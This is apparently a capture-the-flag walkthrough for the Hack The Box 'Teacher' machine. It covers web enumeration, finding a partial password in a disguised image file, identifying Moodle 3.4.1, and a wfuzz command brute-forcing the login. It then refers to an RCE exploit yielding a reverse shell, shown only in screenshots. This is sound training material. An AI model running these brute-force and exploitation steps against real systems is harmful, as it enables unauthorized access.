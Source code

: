 # 10 - HTTP

# index.html
![](vx_images/350598975688.png)


The text on the bottom left right is in Latin. This usually means that the website is custom made not a CMS. As always we will  start with default locations like *robots.txt* and *admin/* and after that return to the source while gobuster is going in the background.

# gallery.html
![](vx_images/2274687820572.png)


images/5.png is interesting because it is writing *That's an F to the console*. That's unusual. Let's see what the image looks like.

![](vx_images/4580120772963.png)

An image that can't be displayed by firefox? That is peculiar. Maybe it is corrupted but we must not rely on the extension.

# Hint
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ wget http://10.10.10.153/images/5.png
--2021-08-28 15:58:45--  http://10.10.10.153/images/5.png
Connecting to 10.10.10.153:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 200 [image/png]
Saving to: ‘5.png’

5.png                                           100%[=====================================================================================================>]     200  --.-KB/s    in 0s      

2021-08-28 15:58:45 (74.2 MB/s) - ‘5.png’ saved [200/200]

┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ file 5.png 
5.png: ASCII text
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ cat 5.png 
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

The file appears as a message to **Servicedesk**.  Morever, it contains a password but we have to guess the last character. On the other hand, we don't know what we can do with the credentials. We left gobuster running in the background. Let's see what gobuster found.


# Gobuster
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ cat gobuster/initial-x.log   |grep -v 403
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/index.html           (Status: 200) [Size: 8028]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/gallery.html         (Status: 200) [Size: 8254]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/.                    (Status: 200) [Size: 8028]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
```

Moodle is another open source software. It is a learning management system written in php. I really like open source software because there are numerous ways to enumerate them.


# Moodle

![](vx_images/4835903469045.png)

# Searchsploit
![](vx_images/4688813582344.png)

There is a ton of exploits in exploitdb's database. Moodle 3.4.1 is vulnerable to remote code execution but we need to make sure our moodle matches the version on the exploit, not that we have to, but it's always a good practice. We can do manual version enumeration by downloading the source code and finding locations that reveal version information or we can use an automated tool.

# Version check
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/]
└──╼ wget https://github.com/moodle/moodle/archive/refs/tags/v3.11.2.tar.gz
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/]
└──╼ tar xvf v3.11.2.tar.gz
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/]
└──╼ cd moodle-3.11.2
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/moodle-3.11.2]
└──╼ $ grep -ri  "3\.11\.2"  
lib/upgrade.txt:=== 3.11.2 ===
message/upgrade.txt:=== 3.11.2 ===
version.php:$release  = '3.11.2 (Build: 20210729)';// Human-friendly version name
```

The latest version of moodle mentions the version in 2 text files. 

* lib/upgrade.txt
* message/upgrade.txt

I think *lib* is a more reliable location because usually lib contains function definitions in most software.

# V3.4
![](vx_images/4835583847727.png)  



# Automated enumeration
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodlescan]
└──╼ $ python3 ./moodlescan.py -u http://10.10.10.153/moodle/
                                                                                                           
Version 0.8 - May/2021
By Victor Herrera - supported by www.incode.cl
Getting server information http://10.10.10.153/moodle/ ...

server          : Apache/2.4.25 (Debian)
x-frame-options : sameorigin
last-modified   : Sat, 28 Aug 2021 12:47:37 GMT

Getting moodle version...
Version found via /composer.lock : Moodle v3.4.1
Searching vulnerabilities...
Vulnerabilities found: 0

Scan completed.
```


moodlescan.py is more precise on version. this is good for us because we now know that the exploit, we have seen earlier, is going to work on this box. However, there is still a small problem, we still don't know the exact password. The last character is still missing.


# The last character
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ wfuzz --hh 440 -c -z file,/opt/SecLists/Fuzzing/alphanum-case-extra.txt  -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' 'http://10.10.10.153/moodle/login/index.php' 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 95

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000003:   303        6 L      34 W       454 Ch      "#"                                                                                                                          

Total time: 0
Processed Requests: 95
Filtered Requests: 94
Requests/sec.: 0
```

Generally, a password can contain only ascii characters, symbols, or digits. Luckily, SecList has a wordlist for all the potential characters in a password. I like to use open source wfuzz instead of its paid counterparts for bruteforcing.

Finally, we have the final version of the password. I think the username is Giovanni because  the message was sent from Giovanni  and Giovanni appears as a teacher on moodle.

# Exploit
![](vx_images/5292114921031.png)


After a few seconds a reverse shell connects to us.

# Shell
![](vx_images/1903483015599.png)
